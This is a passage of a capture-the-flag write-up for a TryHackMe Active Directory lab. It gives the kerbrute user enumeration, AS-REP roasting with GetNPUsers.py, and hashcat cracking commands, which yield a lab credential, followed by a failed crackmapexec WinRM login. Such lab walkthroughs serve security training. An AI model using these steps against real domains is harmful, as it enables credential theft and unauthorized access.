 ### Enum4Linux
![]({{ page.img_path }}Pasted%20image%2020220219225515.png)
- Unable to enumerate any users.
- Domain Name AKA DNS Domain: `spookysec.local`
- FQDN: `AttacktiveDirectory.spookysec.local`


# Initial Foothold

## TCP/88 (Kerberos)
1. Enumerate [usernames](https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt) w/ kerbrute
	```
	~/tools/windows-binaries/AD/kerbrute userenum --dc $ip -d spookysec.local userlist.txt -o found_users.txt
	```
	![Pasted image 20220219214539.png](Pasted%20image%2020220219214539.png)
2. Grep usernames, remove repeated words
	```
	cat found_users.txt | cut -d ':' -f4 | cut -d '@' -f1 | cut -d ' ' -f2 | sort -u |uniq --ignore-case > found_users_grep.txt
	```
3. AS-REP Roasting w/ GetNPUsers.py
	```
	GetNPUsers.py spookysec.local/ -usersfile found_users_grep.txt -dc-ip=$ip
	```
	![Attacktivedirect AS-REP Roasting.png](Attacktivedirect%20AS-REP%20Roasting.png)
	- Out of all the enumerated users, only `svc-admin` has `pre-auth` disabled
4. Crack hash
	```
	hashcat -m 18200 AS-REP_hash.txt passwordlist.txt
	```
	![Attacktivedirect cracking AS-REP_HASH.png](Attacktivedirect%20cracking%20AS-REP_HASH.png)
	- svc-admin:management2005

## TCP/5985 (WinRM)
1. Could not WINRM w/ svc-admin:management2005
	``` 
	┌──(root💀kali)-[~/tryhackme/attacktivedirect/10.10.184.179/scans]
	└─# crackmapexec winrm $ip -u 'svc-admin' -p 'management2005'
	SMB         10.10.15.180    5985   ATTACKTIVEDIREC  [*] Windows 10.0 Build 17763 (name:ATTACKTIVEDIREC) (domain:spookysec.local)
	HTTP        10.10.15.180    5985   ATTACKTIVEDIREC  [*] http://10.10.15.180:5985/wsman
	WINRM       10.10.15.180    5985   ATTACKTIVEDIREC  [-] spookysec.local\svc-admin:management2005
	```
	